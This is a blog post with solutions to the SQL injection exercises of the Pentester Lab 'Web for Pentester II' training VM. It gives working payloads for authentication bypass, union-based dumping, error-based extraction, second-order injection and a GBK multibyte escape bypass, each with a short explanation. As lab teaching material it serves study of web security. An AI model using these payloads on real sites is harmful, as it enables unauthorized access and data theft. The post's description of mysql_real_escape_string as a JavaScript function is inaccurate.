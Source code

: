 ```yaml
---
layout: post
title: Web for Pentester II - SQL Injection
date: 2015-08-20 
author: Simon
comments: true
summary: Solutions to SQL injection questions from Web for Pentester II Penterster Lab
categories: Web_Penetration
tags: 
 - Web penetration
 - SQL injection
---
```


#  Background 
SQL injection is a type of vulnerability of many databases. It is often possible to insert your own sql query into the origin sql query to bypass the authentication page or to get sensitive information. There are a bunch of good examples for web penetration testing in [Pentester Lab](http://pentesterlab.com). In this article, we will go through each one in the tutorial [Web for Pentester II](https://pentesterlab.com/exercises/web_for_pentester_II). Make sure you allocate >= 1 GB RAM, and setup host-only network. Open the page with the IP of the VM (get the IP using nmap or type ifconfig in the VM)

#  Solutions 
### Example 1
This is the most basic injection code. Type the following in the username. As the course of pentester lab stated, password is usually hashed or encrypted, so it is better to perform this in username.
{% highlight sql %}
' or 1=1 #
{% endhighlight %}
Note that assume the original query is like
{% highlight sql%}
SELECT * FROM users WHERE username='******' AND password='******'
{% endhighlight %}
single quote `'` can be used to escape from string, and insert query. After we send the request, the query would be like 
{% highlight sql%}
SELECT * FROM users WHERE username='' or 1=1 # ' AND password=''
{% endhighlight %}
The WHERE clause became always true, and things after # was commented out, so then the server got a result, and we are done.


### Example 2
In this example, the number of users returned is restricted.
{% highlight sql %}
' or 1=1 LIMIT 1 #
{%endhighlight%}


### Example 3
In this example, single quotes are removed in the query, but it's still breakable by using escape `\`. The query will become like
{% highlight sql %}
SELECT * FROM users WHERE username='\' AND password=' or 1=1 #'
{%endhighlight%}
The second single quote is turned to a character by backslash. The actual username in the query is "\' AND password=". The string is closed by the first quote of password.

### Example 4
There is no text box, so look at the address bar. 
{% highlight sql %}
.../example4/?req=username%3d%27hacker%27
{% endhighlight  %}
Decode the url, 
{% highlight sql %}
username='hacker'
{% endhighlight %}
This gives the server a username, and this string is likely to be in WHERE clause. To confirm this, change the url to
{% highlight sql %}
.../example4/?req=username='
{% endhighlight %}
This gives you an sql query error, which shows the actual query. The entire string after "req=" is in WHERE clause. Chagne the url to this.
{% highlight sql %}
.../example4/?req=' or 1=1 #
{% endhighlight %}

### Example 5
This is a union-based SQL injection.
{%highlight sql%}
.../example5/?limit=3 union all select * from users
{%endhighlight%}

### Example 6
Change the url to
{%highlight sql%}
.../example5/?group=username union all select * from users
{%endhighlight%}
or simple delete group
{%highlight sql%}
.../example5/?
{%endhighlight%}
This is a dump example using group by.


### Example 7
Pentester lab provides an error-pone statement, 
{%highlight sql%}
extractvalue('%3Cxml%3E',concat(%22/%22,(select%20version())))
{%endhighlight%}
but I prefer to just use a single quote here, which has the same result on web for pentester II pages.
With an error message displayed, you can easily see the structure of the query.
![errmsg](/img/2015-08-20-sql-injection-web-for-pentester-II-1.png){:width="600px"} 
Same as example 6, delete suffix or use union-based injection to display all users.


### Example 8
Create a few users randomly first. Create a new user named the following:
{%highlight sql%}
' union all select * from users where username='whatever_you_want_to_check' #
or 
' union all select * from users where id='whichever_you_want_to_check' #
{%endhighlight%}
With this user, you may check any user you want. The vulnerability of this one is that the value coming crom database is usually seen as trustable.


### Example 9
This page uses a Javascript function  mysql_real_escape_string(), which removes any escape that you enter in. However, this function does not work properly with GBK character. with a GBK character, followed by a single quote, this quote will not be removed. Enter the following to bypass the authentication.
{%highlight sql%}
呵' or 1=1 #
{%endhighlight%}



